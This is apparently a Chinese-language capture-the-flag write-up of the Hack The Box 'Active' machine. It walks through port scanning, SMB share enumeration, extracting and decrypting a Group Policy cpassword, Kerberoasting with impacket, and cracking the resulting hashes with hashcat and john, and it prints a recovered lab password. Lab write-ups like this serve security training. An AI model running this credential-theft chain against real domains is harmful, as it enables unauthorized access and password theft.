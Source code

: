 ```yaml
---
title: Active（windows LDAP活动目录）
categories:
- training
tags:
- training
- port 445
---
```

参考资料：[smbclient](https://whale3070.github.io/tools/2016/12/12/x/)

## scan

```
53/tcp    open  domain        Microsoft DNS 6.1.7601
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2019-01-02 04:44:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49182/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## analysing
参考资料：[windows active directory](https://zh.wikipedia.org/wiki/Active_Directory)

`53/tcp    open  domain        Microsoft DNS 6.1.7601`
以上结果说明了，这是一台域名服务器（Domain Name System server），active.htb

搜索一下“Microsoft DNS 6.1.7601”，即可得知系统版本——Windows 2008 R2 Standard version

## smb协议探测（Server Message Block protocol）
445端口是用来共享文件夹或者打印机的
```
nmap --script safe -p445 10.10.10.100

smbclient -L //10.10.10.100

smbmap -H 10.10.10.100
```
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/8.PNG)

smbclient //10.10.10.100/Replication
WARNING: The "syslog" option is deprecated
protocol negotiation failed: NT_STATUS_CONNECTION_RESET

## smbmap
SMBMap - Samba Share Enumerator

用smbmap -h可以查看帮助文档

-R是递归列出某目录
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/9.PNG)

```
获得信息：
	.\\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
	dr--r--r--                0 Sat Jul 21 18:37:44 2018	.
	dr--r--r--                0 Sat Jul 21 18:37:44 2018	..
	-r--r--r--              533 Sat Jul 21 18:38:11 2018	Groups.xml
```
下载文件: `smbmap -H 10.10.10.100 -R Replication -A Groups.xml`
```
获得信息2：
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS"
```
## 破解cpassword

参考资料：[Exploiting GPP - Credential Storage in Groups.xml File](https://www.youtube.com/watch?v=ks4aNbArOtk)
[工具下载**gpprefdecrypt.ps1**](https://github.com/reider-roque/pentest-tools/blob/master/password-cracking/gpprefdecrypt/gpprefdecrypt.ps1)

```
cmd.exe 右键以管理员身份运行
cd C:\Users\whale\Desktop
powershell.exe ./gpprefdecrypt.ps1 edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/10.PNG)
`GPPstillStandingStrong2k18`

#### 问题
期间出现windows不允许执行ps1脚本。
解决办法：以管理员身份运行powershell，输入以下命令，然后输入Y。
```
set-executionpolicy remotesigned
```
#### 方法二：
kali工具破解：
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
## 域用户提权
`smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100`
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/11.PNG)

可以发现，多了三个目录可读。依次检查这些目录，获得了user.txt。
`smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt`

**Kerberoasting**
[GetUserSPNs.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py)

Kerberoasting是从票据分发服务中破解hash，来获得明文密码。

Kerberos身份验证使用服务主体名称（SPN）来标识关联的帐户。

```
ldapsearch -x -h 10.10.10.100 -p 389 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName

locate GetUserSPNs.py

/usr/share/doc/python-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

```
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/12.PNG)

```
apt install exim4-config
apt-get install pocl-opencl-icd
apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
apt-get upgrade hashcat 更新了一下hashcat，然后就可以正常运行了
hashcat -m 13100 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force --potfile-disable

john --format:krb5tgs GetUserSPNs.out --wordlist=/usr/share/wordlists/rockyou.txt
```
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/13.PNG)
如果字典里没有正确的密码，hashcat会提示
```
[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => 
```
这个时候就要换字典，再次尝试，或者放弃。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/14.PNG)
## 总结

工作组和域
[工作组和域的区别](https://www.douban.com/note/527276260/)

域一般用在比较大的网络里，需要一台域控服务器，其他计算机要互相访问就要经过它。

工作组比较小（网上邻居），没有控制彼此访问的服务器。

下次继续学习windows域渗透。。。



